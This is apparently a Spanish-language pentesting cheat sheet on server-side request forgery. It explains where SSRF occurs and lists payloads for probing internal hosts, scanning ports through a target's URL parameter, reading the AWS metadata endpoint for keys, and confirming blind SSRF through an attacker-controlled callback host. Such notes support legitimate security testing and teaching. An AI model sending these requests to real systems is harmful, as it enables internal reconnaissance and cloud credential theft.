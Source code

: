 # SSRF (Server-Side Request Forgery)

## Descripción

La vulnerabilidad **SSRF (Server-Side Request Forgery)** ocurre cuando una aplicación permite que un atacante **manipule peticiones realizadas por el servidor**, lo que puede llevar a la exfiltración de datos internos, escaneo de puertos o incluso ejecución de código remoto en algunos casos.

SSRF es particularmente peligroso en entornos donde hay servicios internos sensibles, como **AWS metadata**, bases de datos internas o API de administración expuestas.

---

## Lugares comunes donde buscar SSRF

### Parámetros de entrada que aceptan URLs
- **Campos de entrada de imágenes** (Carga de imágenes desde una URL)
- **Webhooks** (URL proporcionadas por el usuario)
- **Integraciones de APIs** (Ejemplo: integración con servicios externos)
- **Redirecciones de contenido** (Como un proxy o un previsualizador de enlaces)
- **Servicios de conversión de archivos**
- **Sistemas de previsualización de sitios web**

---

## Explotación de SSRF

### 1. Acceso a recursos internos
*Prueba a ingresar direcciones internas en los parámetros sospechosos:*
```bash
http://127.0.0.1:8000/admin
http://localhost:8080/private
http://192.168.1.1/
http://[::1]/
```

### 2. Escaneo de puertos internos
```bash
http://target.com/?url=http://127.0.0.1:22
http://target.com/?url=http://127.0.0.1:3306
```
*Si las respuestas varían, es posible que los puertos estén abiertos.*

### 3. Exfiltración de metadatos en AWS
```bash
http://169.254.169.254/latest/meta-data/
```
*Esto permite obtener claves sensibles en entornos AWS.*

### 4. Realización de ataques blind SSRF
Si no hay respuesta visible, intenta enviar peticiones a un **colaborador externo** como [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator) o un servidor controlado por ti:
```bash
http://your-burp-collaborator.com
```
*Si recibes una conexión, hay un SSRF presente.*

## Herramientas recomendadas
- **Burp Suite**: Intercepción y manipulación de peticiones.
- **FFUF**: Fuzzing de parámetros para descubrir posibles puntos de entrada.
- **Gopherus**: Generación de payloads avanzados para SSRF.
- **Metasploit**: Módulos para explotación automatizada.
